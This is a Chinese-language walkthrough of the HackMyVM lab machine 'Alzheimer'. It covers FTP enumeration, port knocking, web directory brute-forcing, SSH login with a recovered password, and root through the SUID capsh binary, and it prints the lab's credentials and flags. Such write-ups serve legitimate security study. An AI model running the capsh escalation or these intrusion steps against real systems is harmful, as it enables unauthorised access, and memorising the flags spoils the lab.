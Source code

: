 # Alzheimer

2024-11-04 https://hackmyvm.eu/machines/machine.php?vm=Alzheimer

## IP

192.168.5.40

## Scan

```
PORT   STATE    SERVICE
21/tcp open     ftp
22/tcp filtered ssh
80/tcp filtered http
```

ftp 允许匿名登陆，先看看有什么有用信息，发现隐藏文件 .secretnote.txt，查看其内容：

```
I need to knock this ports and
one door will be open!
1000
2000
3000
```

发现是端口敲震，使用 knock 进行处理：knock -v 192.168.5.40 1000 2000 3000 , 敲震后，发现 ssh 和 http 端口已经 open。

访问 80 web 服务，得到提示：

```
I dont remember where I stored my password :(
I only remember that was into a .txt file...
-medusa

<!---. --- - .... .. -. --. -->
```

底部得到了摩尔斯码，进行解码得到内容：OTHINGM， 尝试 ssh 登陆，发现不是 medusa 的密码。

提示我们密码放在了 txt 文件中，使用字典对 web 进行爆破，得到了以下几个目录：

```
http://192.168.5.40/home/
http://192.168.5.40/admin/
http://192.168.5.40/secret/
http://192.168.5.40/secret/home/
```

访问 http://192.168.5.40/secret/home/ 得到 : Im trying a lot. Im sure that i will recover my pass! -medusa

没有找到其他内容，根据上面的提示，发现与 ftp 文件中的内容相似，再次访问 ftp 中的 .secretnote.txt ，发现密码已经写入到该文件中：Ihavebeenalwayshere!!!

使用 medusa/Ihavebeenalwayshere!!! 凭据进行登陆，获得了 user flag：

```
medusa@alzheimer:~$ cat user.txt
HMVrespectmemories
```

寻找提权 root 的路径，sudo -l 发现 (ALL) NOPASSWD: /bin/id 没有利用价值，suid 发现 /usr/sbin/capsh 可以进行利用：

```
medusa@alzheimer:~$ /usr/sbin/capsh --gid=0 --uid=0 --
root@alzheimer:~# id
uid=0(root) gid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),1000(medusa)
root@alzheimer:~# cd /root
root@alzheimer:/root# ls
root.txt
root@alzheimer:/root# cat root.txt
HMVlovememories
```
